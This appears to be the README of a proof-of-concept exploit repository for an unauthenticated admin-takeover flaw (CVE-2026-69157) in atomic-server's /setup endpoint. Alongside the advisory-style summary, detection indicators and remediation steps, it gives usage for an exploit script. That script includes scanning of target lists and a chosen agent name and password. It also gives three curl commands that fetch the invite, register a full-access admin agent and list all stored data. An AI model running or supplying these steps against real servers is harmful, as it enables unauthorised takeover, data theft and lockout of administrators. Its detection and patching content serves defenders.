

<div align="center">

# CVE-2026-69157

### atomic-server — Unauthenticated Admin Account Creation via /setup


</div>

---

## Overview

atomic-server (Rust-based linked data server) exposes a `/setup` endpoint that
issues a one-time admin invite without authentication. Any unauthenticated remote
attacker who reaches this endpoint before the legitimate administrator can register
a full-access Agent, taking complete ownership of the server and all stored data.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-69157 |
| **CVSS 3.1** | `9.8 Critical` — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | CWE-306 (Missing Authentication for Critical Function) |
| **Affected** | atomic-server < 0.39.0 |
| **Patch** | v0.39.0 |
| **Auth Required** | None |
| **Disclosed** | 2026-11-19 |

---

## Vulnerability Details

The `/setup` route in `server/src/routes/setup.rs` presents an invite URL without
verifying that the requester is on the local loopback interface:

```rust
// VULNERABLE — server/src/routes/setup.rs (pre-0.39.0)
pub async fn get_setup(state: web::Data<AppState>) -> impl Responder {
    // No IP allowlist check — any remote client can reach this
    let invite = state.store.create_invite(DriveRights::All).unwrap();
    HttpResponse::Ok().json(json!({
        "invite": invite.subject,   // CWE-306: invite handed to anyone
    }))
}
```

The invite token grants `DriveRights::All`, creating an Agent with full read/write
access to every resource on the server.

---

## Attack Flow



---

## PoC Usage

### Setup

```bash
pip install -r requirements.txt
```

### Scenario 1 — Full exploit: register admin agent

```bash
python poc.py -u https://atomicserver.corp
```

### Scenario 2 — Fingerprint only

```bash
python poc.py -u https://atomicserver.corp --check-only
```

### Scenario 3 — Scan a list of targets

```bash
python poc.py --ip-list targets.txt --delay 1 -o results.json
```

### Manual curl reproduction

```bash
# 1. Retrieve invite (unauthenticated)
curl -sk https://TARGET/setup
# Returns: {"invite":"https://TARGET/invite/TOKEN"}

# 2. Register admin agent using the invite
curl -sk -X POST "https://TARGET/setup?invite=TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"name":"admin_agent","password":"AtomicPwn1!"}'

# 3. Verify — list all subjects
curl -sk -H 'Authorization: Bearer <jwt>' https://TARGET/all-subjects
```

### Available flags

| Flag | Description |
|---|---|
| `-u / --url` | Target atomic-server URL |
| `--ip` | Target IP (builds URL) |
| `--ip-list FILE` | File with one IP/URL per line |
| `--port INT` | Port (default: `443`) |
| `--agent-name STR` | Name for the new agent (default: `admin_agent`) |
| `--agent-password STR` | Password for the new agent |
| `--check-only` | Retrieve invite only, do not register agent |
| `--proxy URL` | HTTP proxy |
| `--insecure` | Disable TLS verification |
| `-o / --output FILE` | Save JSON results to file |
| `--timeout INT` | Request timeout (default: `15`) |
| `--delay FLOAT` | Delay between targets (default: `0.5`) |
| `-v / --verbose` | Verbose output |

---

## Detection

| Indicator | Notes |
|---|---|
| `GET /setup` from non-loopback IP | Server-side access log alert |
| New Agent registration shortly after server start from unexpected IP | Audit log |
| `POST /setup` from external network | Firewall / WAF rule |

---

## Impact

An attacker gains a full-privilege Agent account, allowing them to read, write,
and delete all Atomic Data resources, inject malicious linked-data into the store,
and lock out the legitimate administrator.

---

## Remediation

| Action | Detail |
|---|---|
| **Upgrade** | Update to atomic-server >= 0.39.0 |
| **Network** | Restrict `/setup` to loopback (127.0.0.1) at the reverse-proxy |
| **Complete setup immediately** | Run setup on first deployment before exposing to network |

---

## References

- [atomic-server GitHub — v0.39.0 release notes](https://github.com/atomicdata-dev/atomic-server/releases/tag/v0.39.0)
- [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)

---

> **Disclaimer:** Published for authorised security research only. Use exclusively
> on systems you own or have explicit written permission to test.
